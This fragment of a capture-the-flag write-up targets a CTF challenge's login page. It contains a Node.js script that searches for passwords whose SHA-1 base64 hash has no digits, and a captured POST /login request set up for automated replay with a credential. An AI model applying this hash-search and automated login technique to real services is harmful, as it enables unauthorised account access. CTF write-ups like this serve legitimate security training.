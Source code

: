 ```javascript
const crypto = require('crypto')

function hasNumber(myString) {
  return /\d/.test(myString);
}

let tab = [];
for (let i = 0; i < 100; i++) {
  let cpt = 0;
  while (true) {
    let password = crypto.randomBytes(8).toString('hex')
    let hashedPassword = crypto.createHash('sha1').update(password).digest('base64')
    cpt++
    if (!hasNumber(hashedPassword)) {
      console.log(cpt)
      console.log(password)
      console.log(hashedPassword)
      break;
    }
  }
  tab.push(cpt);
}
const average = tab.reduce((a, b) => a + b, 0) / tab.length;
console.log(average)
```

Automate using stepper:

```
POST /login HTTP/2
Host: vrp-website-web.h4ck.ctfcompetition.com
Content-Length: 32
Cache-Control: max-age=0
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
X-Stepper-Execute-Before: reset
Origin: https://vrp-website-web.h4ck.ctfcompetition.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://vrp-website-web.h4ck.ctfcompetition.com/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=tin&password=Wgh1MVHD3R
```
